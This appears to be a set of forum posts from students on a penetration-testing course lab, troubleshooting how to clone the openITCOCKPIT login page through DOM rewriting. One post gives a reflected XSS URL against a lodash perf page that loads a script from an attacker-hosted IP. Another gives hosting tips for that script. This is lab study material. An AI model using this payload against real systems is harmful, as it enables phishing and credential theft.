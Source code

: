 
I’m trying to resolve exercise 10.6.2.1-1 (openITcockpit). <<Obtain the HTML from the openITCOCKPIT login page and rewrite the DOM to mimic the login exactly.>>
I have tried this:
Having https://openitcockpit/login/login on the browser, open a console and write…
loginhtml=document.getElementsByTagName("html")[0]
loginhtml.outerHTML
Put the result in an HTML beautifier to try to detect errors. This is saved as a file: login.html and  substitute \” for “. This file is opened in Firefox without problems.
Then in the URL https://openitcockpit/js/vendor/lodash/perf/index.html, I open a console and write…
myhtml=document.getElementsByTagName("html")[0]
myhtml.outerHTML=”CONTENT OF login.html”

Then I receive this error: Uncaught SyntaxError: unexpected token: identifier
debugger eval code:1:30

How can I know in which line is the problem? Any hint to resolve it? 


 For future reference... There can't be any 0x0A. It's needed to put a backslash ( \ ) before 0x0A or completely delete 0x0A's.


Annoying basic Q on OpenITCockpit - Obtain the HTML from the openITCOCKPIT login page and rewrite the DOM to mimic the login exactly - trying to rewrite by setting the .innerhtml attr but keep getting syntax errors. Anyone have any tips for properly escaping the html from the login page?
The_Card_Dealer — 05/16/2022 4:13 PM
You can write quote enclosed JS in multiple lines using back ticks (`). 


You can use "curl" to retrieve the HTML from here https://openitcockpit/login/login/login.html

----


alemusix — 02/20/2024 12:54 PM
Doing ex 10.6.2.1 "Obtain the HTML from the openITCOCKPIT login page and rewrite the DOM to mimic the login exactly". My idea was to use the DOM-based reflected XSS from loadash to rewrite  DOM element by fetching a js I'm hosting from kali. Starting with a simple test case I'm hosting this js: 

html_element = document.getElementsByTagName('html')[0]
html_element.innerHTML = '<h1>Hacked!</h1>' 
I was expecting to see "Hacked!" in the XSS page but I get a lot of errors e.g. "Blocked loading mixed active content" 
https://openitcockpit/js/vendor/lodash/perf/index.html?build=xss"></script><script src= 'http://192.168.45.159/poc.js'></script>
I assumed we are asked to use the XSS to change DOM so that the victim that opens this URL

https://openitcockpit/js/vendor/lodash/perf/index.html?build=xss"></script><script src= 'http://192.168.45.159/poc.js'>

 will actually see the login page because the poc.js changed the DOM. But I'm having issues serving external js. Did I misinterpreted the exercise? 
alemusix — 02/20/2024 5:32 PM
So finally I solved. The issue was hosting the poc on a http server. Since the web app is hosted in https firefox won't allow mix communication between https and http. So I stood up a flask server with self signed certs 

----

